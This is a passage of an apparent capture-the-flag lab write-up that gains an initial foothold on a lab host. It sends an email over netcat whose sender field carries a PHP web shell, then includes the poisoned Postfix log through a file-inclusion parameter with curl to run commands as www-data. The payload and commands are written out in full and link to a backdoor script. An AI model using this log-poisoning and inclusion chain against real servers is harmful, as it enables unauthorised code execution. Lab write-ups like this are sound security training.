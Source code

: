 ``` bash
```

## Foothold

### Postfix mail log file backdoor

I used Postfix SMTP and sent a email with [php backdoor](https://github.com/leecybersec/web-shell/blob/master/php/backdoor.php) header

``` bash
┌──(Hades㉿192.168.56.110)-[3.0:40.9]~/scripting
└─$ nc -nC 192.168.56.102 25
220 straylight ESMTP Postfix (Debian/GNU)
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "root@localhost"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as D4E985515
quit
221 2.0.0 Bye
```

![](images/7.png)

Go to Postfix mail log file `/var/log/mail`

``` bash
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
